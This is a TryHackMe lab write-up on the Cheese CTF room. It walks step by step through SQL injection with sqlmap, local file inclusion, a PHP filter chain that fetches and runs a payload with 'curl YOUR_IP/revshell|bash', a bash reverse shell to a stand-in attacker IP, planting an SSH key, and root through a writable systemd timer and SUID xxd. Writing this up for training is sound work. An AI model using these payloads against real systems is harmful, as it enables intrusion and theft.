


# TryHackMe: Cheese CTF

**Platform:** TryHackMe

**Room:** [Cheese CTF](https://tryhackme.com/room/cheesectfv10)

**Difficulty:** Easy

**Focus:** SQL injection, LFI to RCE via PHP filter chains, SSH key abuse, and systemd timer privilege escalation.

**⚠️Disclaimer:** This writeup contains step by step solutions. Flags have been redacted to encourage active learning.

---

## 📑 Table of Contents

- [Setup & Connection](#setup--connection)
- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [SQL Injection](#sql-injection)
- [Local File Inclusion (LFI)](#local-file-inclusion-lfi)
- [PHP Filter Chain → RCE](#php-filter-chain--rce)
- [SSH Key Abuse](#ssh-key-abuse)
- [Task 1 Answer: user.txt Flag](#task-1-answer-usertxt-flag)
- [Privilege Escalation: systemd timer](#privilege-escalation-systemd-timer)
- [Task 2 Answer: root.txt Flag](#task-2-answer-roottxt-flag)
- [Conclusion](#conclusion)

---

## Setup & Connection

First, connect to the TryHackMe network using OpenVPN, then start the lab machine.

```bash
sudo openvpn <your_configuration_file>.ovpn
```

Please allow the machine a minimum of 5 to 7 minutes to boot. This is essential for the best part of the machine.

---

## Reconnaissance

First, we run an `nmap` scan, but it takes a very long time due to many open ports. We switch to [Viper](https://github.com/Vlone-p/viper), a custom Python port scanner, for a faster initial sweep:

```bash
python viper.py 10.130.142.47 -sV
```
```text
____   ____.__                                                                              
\   \ /   /|__|_____   ___________                                                          
 \   Y   / |  \____ \_/ __ \_  __ \                                                         
  \     /  |  |  |_> >  ___||  | \/                                                         
   \___/   |__|   __/ \___  >__|                                                            
              |__|        \/       v2.3.1                                                    

[*] Loaded 1 target(s)
[*] Thread count set to 100

[*] Scanning 99 ports on 1 hosts...

[+] Discovered open port 80/tcp on 10.130.142.47
[+] Discovered open port 22/tcp on 10.130.142.47
[+] Discovered open port 21/tcp on 10.130.142.47
... (many ports detected)
============================================================
SCAN RESULTS
============================================================

Target: 10.130.142.47
PORT       STATE      SERVICE
-----------------------------
21         open      (FTP, unclear banner)
22         open      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80         open      Apache/2.4.41 (Ubuntu) | Title: The Cheese Shop
... (many decoy ports)
============================================================
Scan completed in 0.89 seconds
```

There are a lot of ports, but **21, 22, and 80** seem to be the legitimate ones. The rest appear to be decoys or false positives. Let's run a targeted `nmap` scan with aggressive detection on just those three ports:

```bash
nmap -T5 -A -p21,22,80 10.130.142.47
```
```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-28 14:57 +0100
Nmap scan report for 10.130.142.47
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    550 12345 0f7000f800770008777000000000000000f80008f7f70088000cf00
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ce:5f:66:98:cd:b1:d4:18:30:4e:2a:3d:63:a3:39:70 (RSA)
|   256 74:4c:0e:e1:59:b4:e9:c4:88:d7:c6:aa:b7:d8:e3:9b (ECDSA)
|_  256 f9:d2:51:9f:4e:02:20:e5:41:96:55:bd:41:b8:91:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Cheese Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
...
```

Port 21 (FTP) returns a weird banner, likely a decoy. Ports 22 (SSH) and 80 (HTTP) are the real targets. Let's check the website.

---

## Web Enumeration

Visiting `http://10.130.142.47/` shows **The Cheese Shop**:



Looking around, we find a "Contact Us" section at the bottom:
```
Contact Us
Have questions? Contact us at info@thecheeseshop.com
```

We note the email as a "maybe" for later, but it ends up not being useful.

There's also a login page at `http://10.130.142.47/login.php`:



Looking at the page source (`view-source:http://10.130.142.47/`), we find an interesting HTML comment:
```html
<li><a href="login.php">Login</a> <!-- Added login link --></li>
```

This comment suggests the login link was added recently, making it a likely target. Let's try to attack the login form.

---

## SQL Injection

We first try manual SQL injection (`' OR '1'='1'-- `), but it doesn't work. Let's use `sqlmap` to automate the process:

```bash
sqlmap -u "http://10.130.137.23/login.php/" --data "username=test&password=test" --method POST --dump
```
```text
        ___
       __H__                                                                                
 ___ ___[.]_____ ___ ___  {1.10.9#stable}                                                   
|_ -| . [(]     | .'| . |                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                   
      |_|V...       |_|   https://sqlmap.org                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. ...

[*] starting @ 15:51:22 /2026-10-28/

[15:51:22] [INFO] testing connection to the target URL
...
[15:53:47] [INFO] target URL appears to be UNION injectable with 3 columns
...
sqlmap identified the following injection point(s) with a total of 101 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time based blind
    Title: MySQL >= 5.0.12 AND time based blind (query SLEEP)
    Payload: username=test' AND (SELECT 2160 FROM (SELECT(!SLEEP(5)))inzy) AND 'mgUz'='mgUz&password=test
---
[15:54:46] [INFO] the back end DBMS is MySQL
...

[15:58:22] [INFO] retrieved: 5b0c2e1b4fe1410e47f26feff7f4fc4c
[16:03:00] [INFO] retrieved: comte
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```

sqlmap confirms the `username` parameter is vulnerable to time based blind SQL injection and dumps the database. We find a user named `comte` with a hashed password (`5b0c2e1b4fe1410e47f26feff7f4fc4c`).

Rather than mess with the hash, we can simply bypass the login entirely using a SQL injection in the username field:

```text
comte' AND 1=1 -- -
```

This makes the query always return true for the `comte` user, skipping the password check entirely. We're logged in!

After logging in, the page itself doesn't reveal much, but we notice the URL:
```
http://10.130.137.23/secret-script.php?file=supersecretadminpanel.html
```

There's a `file=` parameter. This looks like a Local File Inclusion (LFI) vulnerability!

---

## Local File Inclusion (LFI)

We test the LFI by trying to read `/etc/passwd`:

```
http://10.130.137.23/secret-script.php?file=/etc/passwd
```

It works! We can read the file and confirm the presence of the `comte` and `root` users:
```text
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
comte:x:1000:1000:comte:/home/comte:/bin/bash
...
```

LFI is great, but we want a shell. Since this is PHP, we can leverage **PHP filter chains** to convert the LFI into Remote Code Execution (RCE).

---

## PHP Filter Chain → RCE

We research PHP filter chain attacks and find an excellent resource from [Synacktiv](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it) along with their [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) tool.

The technique uses chained `php://filter/convert.iconv.*` conversions to generate arbitrary PHP code from nothing. No file upload needed, just an LFI.

First, we create our reverse shell payload file (`revshell`) on our attacker machine:
```bash
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

We start a Python HTTP server to serve the payload:
```bash
python3 -m http.server 80
```
```text
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And a Netcat listener:
```bash
nc -nvlp 4444
```
```text
listening on [any] 4444 ...
```

Now we generate the PHP filter chain that will execute a `curl` command to download and run our reverse shell:

```bash
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L YOUR_IP/revshell|bash` ?>'
```
```text
[+] The following gadget chain will generate the following code : <?= `curl -s -L YOUR_IP/revshell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIFlPVVJfSVAvcmV2c2hlbGx8YmFzaGAgPz4=)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|... (truncated for brevity) ...|convert.base64-decode/resource=php://temp
```

We copy this massive filter chain and paste it into the `file=` parameter of the LFI URL:

```
http://10.130.137.23/secret-script.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|...|convert.base64-decode/resource=php://temp
```

We get a shell!

```text
10.130.137.23 - - [28/Oct/2026 16:23:34] "GET /revshell HTTP/1.1" 200 -
connect to [YOUR_IP] from (UNKNOWN) [10.130.137.23] 47946
bash: cannot set terminal process group (932): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-130-137-23:/var/www/html$ 
```

---

## SSH Key Abuse

We have a shell as `www-data`. Let's look for the user flag:

```bash
www-data@ip-10-130-137-23:/var/www/html$ cd /home/comte
www-data@ip-10-130-137-23:/home/comte$ ls
snap
user.txt
www-data@ip-10-130-137-23:/home/comte$ cat user.txt
cat: user.txt: Permission denied
```

We can't read `user.txt` yet. It's owned by `comte`. Let's look closer:

```bash
www-data@ip-10-130-137-23:/home/comte$ ls -al
```
```text
total 52
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 .
drwxr-xr-x 4 root  root  4096 Oct 28 14:50 ..
-rw------- 1 comte comte   55 Apr  4  2024 .Xauthority
lrwxrwxrwx 1 comte comte    9 Apr  4  2024 .bash_history -> /dev/null
-rw-r--r-- 1 comte comte  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 comte comte 3771 Feb 25  2020 .bashrc
drwx------ 2 comte comte 4096 Sep 27  2023 .cache
drwx------ 3 comte comte 4096 Mar 25  2024 .gnupg
drwxrwxr-x 3 comte comte 4096 Mar 25  2024 .local
-rw-r--r-- 1 comte comte  807 Feb 25  2020 .profile
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .ssh
-rw-r--r-- 1 comte comte    0 Sep 27  2023 .sudo_as_admin_successful
drwx------ 3 comte comte 4096 Mar 25  2024 snap
-rw------- 1 comte comte 4276 Sep 15  2023 user.txt
```

`.bash_history` points to `/dev/null`, so no history to read. But there's a `.ssh` directory we can enter:

```bash
www-data@ip-10-130-137-23:/home/comte$ cd .ssh
www-data@ip-10-130-137-23:/home/comte/.ssh$ ls
authorized_keys
www-data@ip-10-130-137-23:/home/comte/.ssh$ ls -al authorized_keys
-rw-rw-rw- 1 comte comte 0 Mar 25  2024 authorized_keys
```

The `authorized_keys` file is **writable by everyone** (`-rw-rw-rw-`)! We can append our own SSH public key to it.

First, on our attacker machine, we generate an SSH key pair:
```bash
ssh-keygen
```

Then we append our public key to the target's `authorized_keys`:
```bash
www-data@ip-10-130-137-23:/home/comte/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1N...uYkgxFSfu8s1QH User@kali" >> authorized_keys
```

Verify it was written:
```bash
www-data@ip-10-130-137-23:/home/comte/.ssh$ cat authorized_keys
ssh-ed25519 AAAAC3Nz...2YJPYcuYkgxFSfu8s1QH User@kali
```

Now we can SSH in as `comte` using our private key:
```bash
ssh comte@10.130.137.23
```
```text
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
...
Last login: Thu Apr  4 17:26:03 2024 from 192.168.0.112
comte@ip-10-130-137-23:~$ 
```

---

## Task 1 Answer: user.txt Flag

Now we can read the user flag:

```bash
comte@ip-10-130-137-23:~$ cat user.txt
```

The flag is displayed as ASCII art cheese:

**What is the user.txt flag?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the exploitation chain yourself to retrieve it!)*

---

## Privilege Escalation: systemd timer

Now we need root. We check our sudo privileges:

```bash
comte@ip-10-130-137-23:~$ sudo -l
```
```text
User comte may run the following commands on ip-10-130-137-23:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

We can control an `exploit.timer` systemd timer as root. Let's find it:

```bash
comte@ip-10-130-137-23:~$ find / -name exploit.timer 2>/dev/null
/etc/systemd/system/exploit.timer
```

Check its permissions:
```bash
comte@ip-10-130-137-23:/etc/systemd/system$ ls -al exploit.timer
-rwxrwxrwx 1 root root 87 Mar 29  2024 exploit.timer
```

It's **writable by everyone**! Let's look at its contents and the associated service:

```bash
comte@ip-10-130-137-23:/etc/systemd/system$ cat exploit.timer
```
```text
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```

The `OnBootSec=` field is empty. Let's also check the service file:

```bash
comte@ip-10-130-137-23:/etc/systemd/system$ cat exploit.service
```
```text
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

The service copies `xxd` to `/opt/xxd` and sets the SUID bit on it. We just need to make the timer fire. We edit `exploit.timer` to trigger after 30 seconds:

```bash
comte@ip-10-130-137-23:/etc/systemd/system$ nano exploit.timer
```
```text
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=30sec

[Install]
WantedBy=timers.target
```

Now we reload systemd and start the timer:

```bash
comte@ip-10-130-137-23:/etc/systemd/system$ sudo systemctl daemon-reload
comte@ip-10-130-137-23:/etc/systemd/system$ sudo systemctl start exploit.timer
```

After a few seconds, we check `/opt`:
```bash
comte@ip-10-130-137-23:/etc/systemd/system$ cd /opt
comte@ip-10-130-137-23:/opt$ ls
xxd
```

The SUID `xxd` binary is there. According to [GTFOBins](https://gtfobins.linuxsec.org/gtfobins/xxd/), we can use SUID `xxd` to read any file as root:

```bash
comte@ip-10-130-137-23:/opt$ /opt/xxd "/root/root.txt" | /opt/xxd -r
```

---

## Task 2 Answer: root.txt Flag

The output displays ASCII art followed by the flag:

**What is the root.txt flag?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the exploitation chain yourself to retrieve it!)*

---

## Conclusion

The Cheese CTF room is a fantastic chain that covers a wide range of techniques:

1. **SQL injection** via `sqlmap` to dump credentials, then a manual SQLi bypass to log in as `comte`
2. **Local File Inclusion (LFI)** via the `file=` parameter
3. **PHP filter chain** attack to convert LFI into RCE. A clever technique that needs no file upload.
4. **SSH key abuse**. Appending to a globally writable `authorized_keys` file.
5. **systemd timer exploitation**. Modifying a globally writable `.timer` file to trigger an SUID `xxd` copy.
6. **GTFOBins**. Using SUID `xxd` to read the root flag.

Big thanks to [**shadowabsorber**](https://tryhackme.com/p/shadowabsorber) and [**VainXploits**](https://tryhackme.com/p/VainXploits) for creating this room, and to the THM staff for helping with the upload process!

**Useful Resources:**
- [Synacktiv - PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator)
- [Synacktiv - PHP Filters Chain Article](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it)
- [GTFOBins - xxd](https://gtfobins.linuxsec.org/gtfobins/xxd/)
- [Viper - Custom Python Port Scanner](https://github.com/Vlone-p/viper)
